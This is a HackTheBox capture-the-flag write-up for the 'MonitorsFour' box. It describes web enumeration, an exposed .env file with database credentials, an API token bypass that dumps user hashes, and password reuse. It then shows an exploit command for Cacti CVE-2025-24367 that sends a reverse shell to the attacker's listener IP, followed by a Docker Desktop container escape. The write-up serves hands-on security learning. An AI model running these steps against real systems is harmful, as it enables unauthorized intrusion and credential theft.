



# MonitorsFour - HackTheBox Writeup

## Initial Reconnaissance

Let's kick things off with the classic, the legendary **NMAP** scan:

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -p- -A -sV 10.10.11.98
Starting Nmap 7.95 ( https://nmap.org ) at 2025-12-10 08:56 EST
Nmap scan report for 10.10.11.98
Host is up (0.025s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx
|_http-title: Did not follow redirect to http://monitorsfour.htb/
```

Alright, not much choice here — only port 80 is open. The scan also hints at a Windows Server (2022/2016/2012 R2) behind this box.



## Exploring the Web Application

I didn't find anything particularly interesting while enumerating subdomains at first. However, running **feroxbuster** revealed an odd path with a suspicious page:



There's an `include` happening here. I immediately wondered if there was a parameter I could manipulate to exploit this for path traversal... but I found nothing exploitable.

While enumerating the API, I stumbled upon two endpoints:

```
200 GET http://monitorsfour.htb/api/v1/user
200 GET http://monitorsfour.htb/api/v1/users
```

Nothing special there either — they just returned generic responses.

## Exposed Views Directory

With feroxbuster running in the background, I realized something interesting: I could access admin pages directly through an exposed `views` directory!

For example: `http://monitorsfour.htb/views/admin/changelog.php`



This page gave me a bunch of other potential links. By transposing them into the views folder, I discovered:

- `/views/admin/dashboard.php` — A monitoring page, nothing interesting
- `/views/admin/tasks.php` — Task list, empty
- `/views/admin/invoices.php` — Nothing useful except a name: **Marcus Higgins**
- `/views/admin/users.php` — Interesting! A form to manually create users and assign roles
- `/views/admin/customers.php` — Customer list, empty
- `/views/admin/changelog.php` — Changelog, empty
- `/views/admin/api.php` — Very interesting! A page to generate API keys

I had two promising pages: `users.php` and `api.php`. Maybe I could create users or interact with those API endpoints that required a token. Unfortunately, both the API key generation and account creation forms failed to work properly. I noticed the API key generation request included an empty `generate_key=` parameter.

## The .env Discovery

I was stuck for a bit, thinking about what it really meant that these files were exposed. Then it hit me: "Is everything exposed?" I tried requesting `/.env` and... **bingo**:

```
DB_HOST=mariadb
DB_PORT=3306
DB_NAME=monitorsfour_db
DB_USER=monitorsdbuser
DB_PASS=f37p2j8f4t0r
```

I also found a `/controllers` directory (Laravel perhaps?), and discovered that all paths starting with `.ht` returned 403 — indicating some kind of filter in place.

## API Token Bypass

While playing with the API endpoint, I noticed something:

```
GET /api/v1/user?token=' HTTP/1.1

{"error":"Missing ID parameter"}
```

Adding `id=` brought me back to the previous error. I thought maybe the token was something stupid and simple, so I tried bruteforcing with rockyou. When I hit `token=000000&id=1`, I got a different response:

```json
{"error":"No user found by that ID"}
```

Testing with just `token=0` worked! Iterating through IDs, I found several users:

```json
{"id":2,"username":"admin","email":"admin@monitorsfour.htb","password":"56b32eb43e6f15395f6c46c1c9e1cd36","role":"super user","token":"9ebf0f308127c4ae10","name":"Marcus Higgins","position":"System Administrator","dob":"1978-04-26","start_date":"2021-01-12","salary":"320800.00"}

{"id":5,"username":"mwatson","email":"mwatson@monitorsfour.htb","password":"69196959c16b26ef00b77d82cf6eb169","role":"user","token":"0e543210987654321","name":"Michael Watson","position":"Website Administrator"}

{"id":6,"username":"janderson","email":"janderson@monitorsfour.htb","password":"2a22dcf99190c322d974c8df5ba3256b","role":"user","token":"0e999999999999999","name":"Jennifer Anderson","position":"Network Engineer"}

{"id":7,"username":"dthompson","email":"dthompson@monitorsfour.htb","password":"8d4a7e7fd08555133e056d9aacb1e519","role":"user","token":"0e111111111111111","name":"David Thompson","position":"Database Manager"}
```

Those passwords are MD5 hashes. Throwing them at [CrackStation](https://crackstation.net/), I cracked the admin password: **wonderful1**

Credentials: `admin:wonderful1`

## Admin Dashboard Access

After logging in, I explored the changelog and found some interesting entries:

**Security Notice: SQL Injection Patch (V.1.6 - May 1, 2025)**
> A critical security issue in the forgotten password form was patched. The vulnerability allowed potential attackers to exploit error-based SQL injection.

Possibly a poorly patched SQLi? Probably not exploitable though.

**Infrastructure Notice (V.1.7 - May 16, 2025)**
> To enhance our product delivery, we have migrated to Windows and ported websites to Docker via **Docker Desktop 4.44.2**.

This caught my attention — worth checking for Docker-related CVEs later.

**API User Integration (V.1.9 - June 2, 2025)**
> Introduced API user functionality to support automation and system-to-system communication.

Now that I could generate API keys, maybe there was more to explore here.

## Finding Cacti Subdomain

I was stuck again. I went back to the forums for hints and someone mentioned "cacti". Knowing Cacti is monitoring software, I figured it must be on a subdomain. Frustratingly, I had spent ages enumerating subdomains and hadn't found it.

Turns out my script was following redirects, which caused `cacti` to be categorized as an error. After fixing my script (removing the `-r` flag), it became much faster AND found the subdomain:

```bash
┌──(kali㉿kali)-[~/Documents/monitorsfour]
└─$ subfinder monitorsfour.htb

cacti                   [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 64ms]
```

## Exploiting Cacti (CVE-2025-24367)

The Cacti interface was running **Version 1.2.28**. Searching for CVEs, I found a PoC created by the box author himself: [CVE-2025-24367-Cacti-PoC](https://github.com/TheCyberGeek/CVE-2025-24367-Cacti-PoC)

The exploit required authentication. After trying various combinations, I got in with `marcus:wonderful1` (Marcus being the sysadmin's first name from earlier).

```bash
python exploit.py -u marcus -p wonderful1 -i 10.10.14.20 -l 9333 --url http://cacti.monitorsfour.htb
```

This gave me a foothold inside a Docker container. Interestingly, Marcus's home directory was mounted in the container — that's where I found `user.txt`.

## Container Enumeration

Inside the container, I found database credentials in the Cacti config:

```php
$database_default  = 'cacti';
$database_username = 'cactidbuser';
$database_password = '7pyrf6ly8qx4';
$database_port     = '3306';
```

Connecting to the database, I found the admin hash:
```
$2y$10$wqlo06C4isr4q9xhqI/UQOpyM/n8EDzYl/GndqhDh/2LQihzPdHWO
```

Hashcat couldn't crack it. Time to think differently.

## Docker Escape (CVE-2025-9074)

Remembering the changelog mentioned **Docker Desktop 4.44.2**, I searched for recent Docker Windows CVEs and found exactly what I needed:

- [Reddit Discussion](https://www.reddit.com/r/netsec/comments/1mwhisp/when_a_ssrf_is_enough_full_docker_escape_on/)
- [Technical Writeup](https://pvotal.tech/breaking-dockers-isolation-using-docker-cve-2025-9074/)

The vulnerability is almost comically simple: the container has access to Docker's API, allowing it to create a new container with the entire host filesystem mounted. Using [this PoC](https://github.com/3rendil/CVE-2025-9074-POC), I got a reverse shell from a newly spawned container with the host mounted.

The root flag was waiting at: `/hostfs/mnt/host/c/Users/Administrator/Desktop/root.txt`

**DONE!** (One could go further and try to get direct access to the Windows Administrator account, but that's beyond my current skill level.)

## Conclusions

This box was fairly straightforward, but I lost time in a few places:

1. **Token bypass** — I didn't immediately think to test if the token validation was broken or could be bypassed with simple values. That kept me stuck for a while.

2. **Subdomain enumeration** — My script was following redirects, causing `cacti.monitorsfour.htb` to be miscategorized. Always double-check your tools!

3. **Docker Desktop hint** — I initially glossed over the version information in the changelog and didn't make the right searches. Once I focused on Docker Windows CVEs, the path forward was clear.

Overall, a fun box with a nice progression from web enumeration to container escape. The Docker escape CVE was particularly interesting to learn about!